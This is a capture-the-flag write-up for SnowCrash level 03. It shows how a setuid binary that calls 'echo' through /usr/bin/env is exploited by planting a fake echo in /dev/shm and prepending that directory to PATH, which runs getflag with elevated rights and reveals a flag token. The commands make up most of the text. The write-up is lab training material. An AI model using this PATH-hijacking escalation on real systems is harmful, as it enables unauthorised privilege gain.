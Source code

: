 # Level 03

## Vulnerability

Privilege escalation - environment variables

## Context

In our home directory, we find a binary
```
level03@SnowCrash:~$ ls -l
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```

## Solution

When we run this binary, we run it with flag03 permissions (as indicated by the 's' for setuid after  '-rw').
We don't have the permissions to run ```getflag``` directly, but maybe we can use the `./level03` binary to run ```getflag``` for us. 
Let's run the file. 
```
level03@SnowCrash:~$ ./level03
Exploit me
```
We're on the right track. Let's investigate further.
```
level03@SnowCrash:~$ strings level03 | grep "Exploit"
/usr/bin/env echo Exploit me
```
It looks like ./level03 is calling ```echo``` from ```usr/bin/env```. It's calling binary that's defined by the environment.
So maybe the trick is to substitute our own ```echo``` binary, which calls ```getflag``` with ```flag03``` user permissions.

Let's confirm where the getflag is. 
```
level03@SnowCrash:~$ ls -l /bin | grep "getflag"
-rwxr-xr-x 1 root root   11833 Aug 30  2015 getflag
level03@SnowCrash:~$ ../../../bin/getflag
Check flag.Here is your token :
Nope there is no token here for you sorry. Try again :)
```
As we suspected. Time for some redirection. 
```
level03@SnowCrash:~$ echo "/bin/getflag" > /dev/shm/echo
level03@SnowCrash:~$ chmod +x /dev/shm/echo
level03@SnowCrash:~$ PATH=/dev/shm:$PATH
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
